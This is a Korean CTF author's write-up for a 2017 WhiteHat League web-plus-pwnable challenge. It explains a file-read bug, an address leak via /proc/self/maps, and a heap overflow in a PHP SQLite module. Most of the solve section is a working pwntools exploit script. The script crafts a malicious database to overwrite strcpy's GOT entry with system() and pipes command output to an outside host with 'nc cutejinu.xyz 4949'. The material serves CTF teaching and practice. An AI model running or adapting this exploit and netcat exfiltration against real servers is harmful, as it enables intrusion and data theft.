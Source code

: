 # WhiteHat League 1 - Demon CTF [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)
white Write-Up - 출제자 풀이
-----------------------------------

## Introduce
* Author : 이진우 ([unknown84](http://unknown84.tistory.com))
* Field  : Web Hacking + Pwnable
* E-Mail : unknown84@naver.com
* Date   : 2017-09-13

## Intention
* 전체적인 컨셉으로는 실제 **PHP 모듈**에서 발생하는 취약점을 기본으로 함.
* 플래그 형식은 **DEMON{...}**

## Solve
* [challenge url](http:// NULL)

### 1. Functions Analyse
> 1. 메인 페이지의 백그라운드 사진이 있는 /test/ 경로에 들어가면 directory listing이 되고 안의 파일을 읽어보면 개발자는 vi를 사용하고 C언어를 좋아한다고 나와있다.
-  test_1.php, test_2.php, test_3.php을 들어가보면 input error가 출력된다.
-  .filename.swp를 통해 접근하면 위 파일들의 소스를 확인할 수 있다.
   ![소스1](https://github.com/unknown84/tmp_img/blob/master/Picture1.png?raw=true)
> 2. read file
- test_2.php에서 원하는 파일을 읽을 수 있다.
  ![소스2](https://github.com/unknown84/tmp_img/blob/master/Picture2.png?raw=true)
- db_backup.php의 코드를 확인하면 bcakup_db_getuserinfo라는 수상한 함수가 있다.
  ![소스3](https://github.com/unknown84/tmp_img/raw/master/Picture3.png)
- test_2.php => /proc/self/maps 를 통해 로드된 모듈을 확인 및 다운로드

> 3. 모듈 분석
- ida로 bcakup_db.so를 분석해보면 링크드리스트로 회원 리스트를 만들고 uid,upw,uinfo 크기별로 malloc해서 할당해준다.
  uid가 같을 경우 upw와 uinfo를 길이값 검증을 하지 않고 복사를 한다.
  ![소스4](https://github.com/unknown84/tmp_img/raw/master/Picture4.png)
  ![소스5](https://github.com/unknown84/tmp_img/raw/master/Picture5.png)
  user
  uid
  upw
  uinfo
  user
  uid
  upw
  uinfo
  위와 같이 메모리를 할당시키고 upw에서 overflow를 발생시켜 user 정보를 덮게 되면 원하는 주소에 값을 쓸 수 있다.
  릭은 /test/test_2.php 에서 /proc/self/maps를 읽으면 된다.
```{.python}
import sqlite3
import os
from pwn import *

flag = False
if os.path.isfile('exp.db'):
	flag = True
con = sqlite3.connect('exp.db')
cursor = con.cursor()

c_q = 'CREATE TABLE hello (uid text, upw text, uinfo text);'
i_q = "INSERT INTO hello(uid,upw,uinfo) values ('%s','%s','%s');"
def create():
	cursor.execute(c_q)
	con.commit()

def make(uid,upw,uinfo):
	print uinfo.encode('hex')
	cursor.execute(i_q % (uid,upw,uinfo))
	con.commit()


if not flag:
	create()

for i in range(520):
	t = '%s%i' % ('A'*28,i)
	make(t,t,t)

t = 'j'*32
k = 'k'*32
k = 'ls -al /|nc cutejinu.xyz 4949  ;'
make(t,t,t)
#make(t*4,t,t)
make(k,k,k)
import urllib2
g = urllib2.urlopen('http://172.16.114.158/test/test_2.php?jfilej=/proc/self/maps').read()
#g = urllib2.urlopen('http://192.168.0.116/test/test_2.php?jfilej=/proc/self/maps').read()
e = ELF('libc-2.23.so')
leak_libc = int(g.split('libc-')[0].split('\n')[-1].split('-')[0],16)
print hex(leak_libc)
st = leak_libc+e.symbols['system']#-0x1000

fakeuid = p64(leak_libc + list(e.search('/bin/sh'))[0])
passsword = p64(int(g.split('bcakup_db')[0].split('\n')[-1].split('-')[0],16)+0x0000000000202020)
print '0x%x 0x%x 0x%x ' % (u64(fakeuid), u64(passsword), st)
# 0000000000202020 off_202020      dq offset strcpy        ; DATA XREF: _strcpyr
dat = 'A'*16 + fakeuid + passsword
dat = dat
print dat
ar = []
for i,tt in enumerate(dat):
	if tt == '\x00':
		ar.append(i)
print ar

make(t,t,t+dat.replace('\x00','A'))
#print (t+dat.replace('\x00','A')).encode('hex')
for tt in ar[::-1]:
	#print (t+dat[:tt].replace('\x00','A')).encode('hex')
	make(t,t,t+dat[:tt].replace('\x00','A'))
make('/bin/sh',p64(st)[:-2],'ls -al|nc cutejinu.xyz 4949;')
make('ls -al|nc cutejinu.xyz 4949;','ls -al|nc cutejinu.xyz 4949;','ls -al|nc cutejinu.xyz 4949;')

con.close()
```

> 4. 위의 코드로 생성된 exp.db를 DB 확인 부분에 업로드하면 / 경로에 있는 파일 리스트를 확인할 수 있다.
>    ![exp6](https://github.com/unknown84/tmp_img/raw/master/Picture6.png)
>    ![exp7](https://github.com/unknown84/tmp_img/raw/master/Picture7.png)

> 5.  Other Exploit
- sqlite로 어찌어찌하는듯
  ~~근데 나는 모르겠다~~

# 끝